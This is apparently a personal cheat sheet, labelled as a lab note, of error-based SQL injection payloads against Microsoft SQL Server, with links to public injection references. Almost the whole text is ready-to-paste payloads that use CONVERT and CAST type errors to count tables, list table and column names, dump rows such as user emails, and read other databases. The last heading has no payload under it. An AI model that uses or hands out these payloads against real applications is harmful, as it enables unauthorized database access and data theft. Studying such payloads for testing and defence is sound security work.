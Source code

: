 ```
```

### mssql exploit
[lab-mail229]
[mssql-pracitical-injection-cheat-sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
[PayloadsAlltheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-error-based)
[mssql-papers from exploit-db](https://www.exploit-db.com/papers/12975)

```
# Error based
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
# 注意数据类型错误，数据类型不一致 转型
// table count
1' + convert(int,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))) + '

//table name: users
1' + convert(int,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))) + '

//column: email
1' + convert(int,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))) + '

//table data count, 18
1' + convert(int,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))) + '

//table data
//tablename: table1
//2 columns: column1, column2
//second top N, to get other row
//output, ::column1:column2::
1' + convert(int,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 1 column1 , column2 FROM table1 ORDER BY column1  ASC) sq ORDER BY column1  DESC)+CHAR(58)+CHAR(58)))--

// tables from other database 
1 AND 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top N TABLE_NAME FROM other_database.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58)))--

// columns from another databases
// change other_database, other_table and increase N
1 AND 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top N column_name FROM other_database.information_schema.COLUMNS WHERE TABLE_NAME='other_table' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58)))--

// table row count
// change other_databases, other_table
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [other_database]..[other_table] )+CHAR(58)+CHAR(58)))--

// table data
// change other_database, other_table, other_column and increase N
```